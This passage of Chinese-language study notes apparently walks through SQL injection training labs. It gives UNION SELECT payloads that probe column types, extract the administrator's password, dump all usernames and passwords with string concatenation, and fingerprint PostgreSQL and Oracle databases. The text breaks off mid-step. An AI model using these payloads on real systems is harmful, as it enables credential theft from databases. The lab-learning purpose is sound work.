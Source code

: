 将其中的某个null改为'aaa'，表明是string类型,挨个替换null去试，哪个不报错，说明union前后两个column的类型一致，说明那个column的数据类型是string
如：

    select ? from tab1 union select NULL,'aaa',NULL....
说明2nd column为string类型

###第五题：找到administrator的密码###
已知有个table的名字是user,包含username和password两个column，有个用户名是administrator，利用union select语句输入密码

目前，有漏洞的地方查询的tabel刚好有2个column，table user也是2个column，故直接输入:

    pets' union select username,password from users where username='administrator'--

相当于后台执行语句：
   `select a,b from tab1 where id= 'pets' union select username,password from users where username='administrator'--`

###lab6：显示出user列表中所有信息###
已知有个table名字叫user，包含username,password两个column，用union查询语句显示列表中所有信息

1.用order by确定只有两个column，再判断哪个column能够显示text
    
    'union select 'a',null--
    'union select null,'a'--
	'union select '1',null--
发现第一个查询报错，第二个正确，第三个正确，说明只有第二个column能够显示text，第一个column应该显示的是数字，类似于id。

2.可以采用以下语句，分别输入username和password

     'union select null,username from users--
     'union select null,password from users--
将两次得到的结果结合，即可获得username和对应的password

3.也可以尝试用将username和password字符串拼接，一起输出
	

- 3.1 不同的数据库有不同的拼接方法，先用sql注入cheet sheet中确定数据库方法，挨个试试，确定数据库类型，采用：
     `'union select null,@@version--`  结果报错
	`'union select null,version()  结果显示正确`

确定是PostgreSQL数据库

- 3.2 用PostgreSQL数据库字符串拼接的方法：
     `PostgreSQL	'foo'||'bar'`

也就是说：
	`'union select null, username||'~'||password from users--`
中间的~是为了区分开username和password
- 另外，发现用mysql的concat语句也可以实现：
	`'union select null, concat(username,'~',password) from users--`
原因是：PostgreSQL中也实现了concat函数

###lab7：找到Oracle数据库的版本号###
已知用了oracle数据库，用union语句找到版本号
1.order by知道了有两个column，但是用：
  `  'union select null,'a'--   结果报错`

根据之前网页的返回结果，明明数据类型就是string，不应该错，但还是返回错误。这时候，google一下oracle select statements，发现select语句中一定要有from tablename的字段，这是发现oracle提供一个属于schema的**dual table**供用户使用，因此，语句改为：
